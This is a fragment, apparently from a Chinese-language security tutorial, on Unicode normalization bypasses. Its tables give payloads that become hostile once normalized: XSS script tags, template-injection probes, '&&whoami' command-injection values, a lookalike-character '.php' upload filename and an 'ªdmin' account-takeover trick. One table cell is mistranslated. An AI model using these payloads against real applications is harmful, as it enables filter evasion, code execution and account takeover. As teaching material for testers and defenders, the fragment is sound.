   

Character| Payload| After Normalization  
---|---|---  
。(U+3002)| jlajara。gitlab。io| jlajara.gitlab.io  
／(U+FF0F)| ／／jlajara.gitlab.io| //jlajara.gitlab.io  
  
  

 **xss**

  

Character| Payload| After Normalization  
---|---|---  
＜(U+FF1C)| ＜script src=a／＞| ＜script src=a/>  
＂(U+FF02)| ＂onclick=＇prompt(1)＇| “onclick=’prompt(1)’  
  
 **模板注入  
**

  

Character| Payload| After Normalization  
---|---|---  
﹛(U+FE5B)| ﹛﹛3+3﹜﹜| {{3+3}}  
［ (U+FF3B)| ［［5+5］］| [[5+5]]  
  
 **系统命令注入  
**

  

Character| Payload| After Normalization  
---|---|---  
＆ (U+FF06)| ＆＆whoami| &&whoami  
｜ (U+FF5C)| ｜｜ whoami| ||whoami  
  
 **任意文件上传  
**

  

Character| Payload| After Normalization  
---|---|---  
ｐ (U+FF50) ʰ (U+02B0)| test.ｐʰｐ| test.php  
  
  

 **逻辑**

我们可以使用某些字符注册用户，也许注册过程会允许注册，因为此步骤中的用户未规范化并允许该字符。之后，假设应用程序在检索用户数据后执行一些规范化。

1.注册ªdmin。数据库中没有条目，注册成功。

2\. 登录ªdmin。后端执行标准化并给出结果admin。

3.账户接管。

  

特点| 有效载荷| 标准化后  
---|---|---  
ª (U+00AA)| ªdmin| 行政  
  